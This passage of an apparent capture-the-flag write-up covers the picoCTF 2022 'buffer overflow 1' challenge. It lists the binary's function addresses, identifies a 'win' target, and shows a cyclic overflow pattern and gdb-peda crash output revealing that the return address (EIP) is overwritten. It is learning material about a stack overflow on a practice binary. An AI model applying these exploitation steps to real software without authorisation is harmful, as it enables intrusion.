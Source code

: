 ```
0x08049130  __x86.get_pc_thunk.bx
0x08049140  deregister_tm_clones
0x08049180  register_tm_clones
0x080491c0  __do_global_dtors_aux
0x080491f0  frame_dummy
0x080491f6  win
0x08049281  vuln
0x080492c4  main
0x0804933e  get_return_address
0x08049350  __libc_csu_init
0x080493c0  __libc_csu_fini
0x080493c5  __x86.get_pc_thunk.bp
0x080493cc  _fini
```

And we now know *win*
```
0x080491f6  win
```

I installed and am using *gdb-peda* now. I used [zerosum0x0](https://zerosum0x0.blogspot.com/2016/11/overflow-exploit-pattern-generator.html) for an overflow pattern.
```
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A
```

Then back in *gdb*.
```
gdb-peda$ run
Starting program: /home/jacob/docs/ctf/pico/2022/031_buffer_overflow_1/vuln
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
Please enter your string:
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A
Okay, time to return... Fingers Crossed... Jumping to 0x35624134

Program received signal SIGSEGV, Segmentation fault.
Warning: 'set logging off', an alias for the command 'set logging enabled', is deprecated.
Use 'set logging enabled off'.

Warning: 'set logging on', an alias for the command 'set logging enabled', is deprecated.
Use 'set logging enabled on'.
[----------------------------------registers-----------------------------------]
EAX: 0x41 ('A')
EBX: 0x41326241 ('Ab2A')
ECX: 0x41 ('A')
EDX: 0x0
ESI: 0xffffd064 --> 0xffffd2b2 ("/home/jacob/docs/ctf/pico/2022/031_buffer_overflow_1/vuln")
EDI: 0xf7ffcb80 --> 0x0
EBP: 0x62413362 ('b3Ab')
ESP: 0xffffcf80 ("Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A")
EIP: 0x35624134 ('4Ab5')
EFLAGS: 0x10286 (carry PARITY adjust zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
Invalid $PC address: 0x35624134
[------------------------------------stack-------------------------------------]
0000| 0xffffcf80 ("Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A")
0004| 0xffffcf84 ("b7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A")
0008| 0xffffcf88 ("8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A")
0012| 0xffffcf8c ("Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A")
0016| 0xffffcf90 ("c1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A")
0020| 0xffffcf94 ("2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A")
0024| 0xffffcf98 ("Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A")
```